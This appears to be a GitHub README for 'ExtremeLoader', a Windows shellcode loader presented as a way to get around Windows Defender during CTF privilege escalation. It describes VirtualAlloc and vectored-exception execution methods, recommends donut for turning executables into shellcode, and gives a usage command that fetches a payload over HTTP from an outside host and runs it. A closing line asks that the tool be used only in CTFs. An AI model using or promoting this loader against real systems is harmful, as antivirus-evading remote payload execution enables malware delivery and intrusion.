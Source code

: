 ## Credits :
Credits to @manesec because shellcode over http is his idea, check out [his repo](https://github.com/manesec/shellcodeloader4mane/).

## Why ?
You're doing a CTF, have SeImpersonatePrivilege but you get stuck for 3 hours because windows defender keeps deleting godpotato.exe ?
I'm here to save the day !

## Extreme Shellcode
This is a really simple shellcode loader that can use two techniques :
- loadVirtualAlloc
- vectoredException

It will retrieve the shellcode via http to run it using one of the above techniques.

The second one is interesting because it's still kind of new. 
I wanted to make this when I found this good [blogpost](https://securityintelligence.com/x-force/using-veh-for-defense-evasion-process-injection/)
that goes into great detail on how it works.

This is a visual studio project, if you just want the executables I might add them to the release page if I'm not too lazy. 
I don't really plan on updating this while it works, but once it will get flagged by windows defender I might.
No encryption is used on the payload, feel free to fork and do it.

## How to use
You need to generate a shellcode from the executable you want to run, the best tool for this might be [donut](https://github.com/TheWover/donut).
Then just server the shellcode on http, and run
```
.\ExtremeLoader.exe http://10.10.10.10/loader.bin
```

Please please please be responsible and only use this in ctf's
